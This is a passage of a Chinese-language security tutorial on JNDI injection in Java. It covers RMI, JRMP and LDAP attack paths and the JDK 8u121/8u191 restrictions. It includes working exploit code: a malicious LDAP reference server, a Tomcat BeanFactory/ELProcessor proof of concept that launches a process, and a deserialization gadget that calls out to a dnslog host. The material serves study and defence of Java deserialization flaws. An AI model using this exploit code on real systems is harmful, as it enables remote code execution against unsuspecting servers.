import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Hashtable;

public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        Hashtable<String,Object> env = new Hashtable<>();
        Context ctx = new InitialContext();
        ctx.lookup("rmi://localhost:1099/evilFactory");
    }
}

```  
恶意Factory的静态代码,构造方法,getObjectInstance()都被触发.
  

总结RMI利用流程:
1. 被攻击端lookup()URL可控,因为动态转换,访问恶意的RMI服务.
2. RMI服务返回包含指向如何构建远程对象的Factory工厂类的远程地址Reference引用.  
3. 被攻击端根据该引用下载该Factory工厂类,调用其`getObjectInstance()`方法创建远程对象,在实例化Factory工厂类和`getObjectInstance()`方法时触发恶意代码.  


#### 基于JRMP
JRMP是JAVA对其RMI功能实现的协议,也就是RMI在通信时使用的协议,而我们知道RMI传输的信息都是通过序列化传递的,JRMP协议也就是对该序列化传递机制的实现.

而基于JRMP的利用主要原理是JRMP协议的双向传输都是用序列化传输,那么如果对方环境存在可利用的gadget自然都可以通过反序列化漏洞进行攻击.
* 攻击Registry注册中心
通过使用Registry连接到注册中心,然后把gadget chain对象bind注册到注册中心,注册中心在接受到服务端bind时发送的序列化数据时进行反序列化,从而引起注册中心反序列化RCE.
* JRMP协议客户端攻击服务端
使用JRMP协议,直接发送gadget chain的序列化数据到服务端,从而引起服务端反序列化RCE
* JRMP协议服务端攻击客户端
使用JRMP协议,当客户端连上后,直接返回gadget chain的序列化数据给客户端,从而引起客户端反序列化RCE
#### After 8u121  
在8u121之后的版本再次执行会得到报错,这是因为在121即之后添加了一个trustURLCodebase属性,默认为False.  
  
意思是对象的factory工厂类不受信任,该属性决定了能否加载远程的工厂类,即8u121开始默认情况下不再支持从远程加载工厂类了.
  
同时在121版本加入了反序列化的白名单如下:
```
String.clas
Number.class
Remote.class
Proxy.class
UnicastRef.class
RMIClientSocketFactory.class
RMIServerSocketFactory.class
ActivationID.class
UID.class
```  
上述的利用点同样在121版本受到限制,但在白名单中的UnicastRef.class存在一个反序列化点,UnicastRef继承了`java.io.Externalizable`,在反序列化的时候会触发`readExternal`方法.
### LDAP利用
LDAP也是JNDI自带的四种Serivece provider中的一种,是基于X.500标准的轻量级目录访问协议,目录是一个为查询、浏览和搜索而优化的数据库，它成树状结构组织数据，类似文件目录一样.  

在8u121之后因为RMI的利用受到限制,所以开始使用LDAP协议来进行攻击,而LDAP的利用方式和RMI类似,通过是绑定一个Reference在LDAP返回给客户端,客户端加载恶意的factory进行RCE.
#### 实现代码
```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class ldapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main(String[] args) {
        String[] p = new String[]{"http://127.0.0.1:8089/#evilFactory", "9999"};
        int port = 0;
        if (p.length < 1 || p[0].indexOf('#') < 0) {
            System.err.println(ldapServer.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (p.length > 1) {
            port = Integer.parseInt(p[1]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(p[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}

```
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Hashtable;

public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        Hashtable<String,Object> env = new Hashtable<>();
        Context ctx = new InitialContext();
        ctx.lookup("ldap://localhost:9999/test");
    }
}
```
#### After 8u191
在8u191中同样和RMI一样对LDAP也添加了`com.sun.jndi.ldap.object.trustURLCodebase`属性,默认为False,限制了远程加载工厂类.
  
  
同样在之前的7u201和6u211版本中也添加了该属性.
## 高版本的JNDI利用
当jdk版本大于等于8u191时,常规的RMI和LDAP利用受到限制,在这之后还有两种方式来利用JNDI注入.
### 使用本地的Reference Factory类
jdk高版本的限制在于不能远程加载Factory类,所以我们可以不利用远程类,转向利用本地的Factory类,而本地的Facotry类一般只有从其构造方法和`getObjectInstance()`方法中继续寻找利用点.
#### Tomcat#BeanFactory
而可能利用概率较大則是Tomcat中的`BeanFactory`本地工厂类了,该利用其依赖于Tomcat环境.
添加依赖包
```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
    <version>8.5.64</version>
</dependency>
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-el</artifactId>
    <version>8.5.64</version>
</dependency>

```  
在其`getObjectInstance()`方法中可以看到如果传入的obj是一个`ResourceRef`引用时,其会从中获取到包含的class name并且实例化该类.
  
然后获取引用中的`forceString`属性,并进行分割来得到其`setter`方法的名称,然后从该Class中获取该名称的Method放入`forced`中.  
  
在最后会通过反射来执行该setter方法.  

#### POC
可以看到其获取setter方法的逻辑只是简单的用`,`和`=`进行分割,并没有校验是否是真的setter方法,所以可以构造恶意的ref使其调用恶意方法.
```java
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd.exe','/c','calc.exe']).start()\")"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            registry.bind("evilFactory", referenceWrapper);
            System.out.println("evilFactory reference bound");
```
通过构成beanClass为`ELProcessor`,然后设置其setter方法为`eval()`,利用EL表达式注入RCE.  
    
  

### 反序列化触发本地Gadget
#### com.sun.jndi.ldap.decodeObject#javaSerializedData
反序列化是因为LDAP在解码的时候如果含有`javaSerializedData`属性,那么会对其进行反序列化操作,所以可以通过这个点进行反序列化攻击.  
  
修改ldap服务器吗,在返回的Entry中添加`javaSerializedData`属性.
```java
 ByteArrayOutputStream bytes = new ByteArrayOutputStream();
            ObjectOutputStream serial = new ObjectOutputStream(bytes);
            HashMap map = new HashMap();
            URL url = new URL("http://sdsda.dnslog.cn/");
            Class clas = Class.forName("java.net.URL");
            Field field = clas.getDeclaredField("hashCode");
            field.setAccessible(true);
            field.set(url,123);
            map.put(url,"2333");
            field.set(url,-1);
            serial.writeObject(map);
            ...
            ...
            e.addAttribute("javaSerializedData", bytes.toByteArray());
```


## 参考  
https://docs.oracle.com/javase/tutorial/jndi/  
https://paper.seebug.org/1091/#weblogic-rmi    
https://blog.csdn.net/li_w_ch/article/details/110114397    
https://xz.aliyun.com/t/7079  
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf  
https://kingx.me/Exploit-Java-Deserialization-with-RMI.html